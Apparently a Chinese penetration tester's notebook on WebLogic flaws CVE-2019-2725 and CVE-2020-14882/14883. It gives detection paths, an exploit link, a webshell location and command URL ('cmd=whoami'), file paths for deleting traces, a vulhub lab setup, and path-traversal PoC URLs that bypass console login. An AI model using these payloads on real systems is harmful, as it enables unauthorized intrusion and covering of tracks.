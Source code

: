 
## Weblogic反序列化远程代码执行漏洞
- CNVD-C-2019-48814
- CVE-2019-2725
- 在反序列化处理信息的过程中存在缺陷, 未经授权的攻击者可以发送特殊HTTP请求, 远程代码执行getshell
- 影响版本: 
	- Oracle WebLogic Server 10.*
	- Oracle WebLogic Server 12.1.3
- 影响组件:
	- bea_wls9_async_response.war, 使用注解方法调用Weblogic原生Web服务类
	- wsat.war
- 漏洞判断: 是否开启对应组件
	- 访问路径`/_async/AsyncResponseService`, 返回Welcome页面
- 漏洞利用: https://github.com/TopScrew/CVE-2019-2725
- shell上传: `C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war`
	- `http://172.26.2.43:7001/bea_wls_internal/demo.jsp?pwd=admin&cmd=whoami`
- [Weblogic反序列化远程代码执行漏洞（CVE-2019-2725）分析报告 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/202203.html)
- [WebLogic反序列化漏洞CVE-2019-2725 - 简书 (jianshu.com)](https://www.jianshu.com/p/659f09f29b38)
- 删除文件路径
- 10.3.*
```
\Middleware\wlserver_10.3\server\lib\
%DOMAIN_HOME%\servers\AdminServer\tmp\_WL_internal\
%DOMAIN_HOME%\servers\AdminServer\tmp\.internal\
```
- 12.1.3
```
\Middleware\Oracle_Home\oracle_common\modules\
%DOMAIN_HOME%\servers\AdminServer\tmp\.internal\
%DOMAIN_HOME%\servers\AdminServer\tmp\_WL_internal\
```


## Weblogic管理控制台未授权远程命令执行漏洞
- CVE-2020-14882: 允许未授权的用户绕过管理控制台的权限验证访问后台
- CVE-2020-14883: 允许后台任意用户通过HTTP协议执行任意命令
- 漏洞环境: docker-compose.yml, 访问`http://IP:7001/console`后台登录
```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic:12.2.1.3-2018
   ports:
    - "7001:7001"
```
[CVE-2020-14882&CVE-2020-14883 Weblogic未授权远程命令执行漏洞 - 只言 - 博客园 (cnblogs.com)](https://www.cnblogs.com/liliyuanshangcao/p/13962160.html)
[weblogic未授权命令执行漏洞(CVE-2020-14882)复现_echo "大佬们吃饭了"的博客-CSDN博客](https://blog.csdn.net/weixin_45291045/article/details/115381481)
### CVE-2020-14882: POC
```
http://IP:7001/console/css/%252e%252e%252fconsole.portal

http://IP:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```
	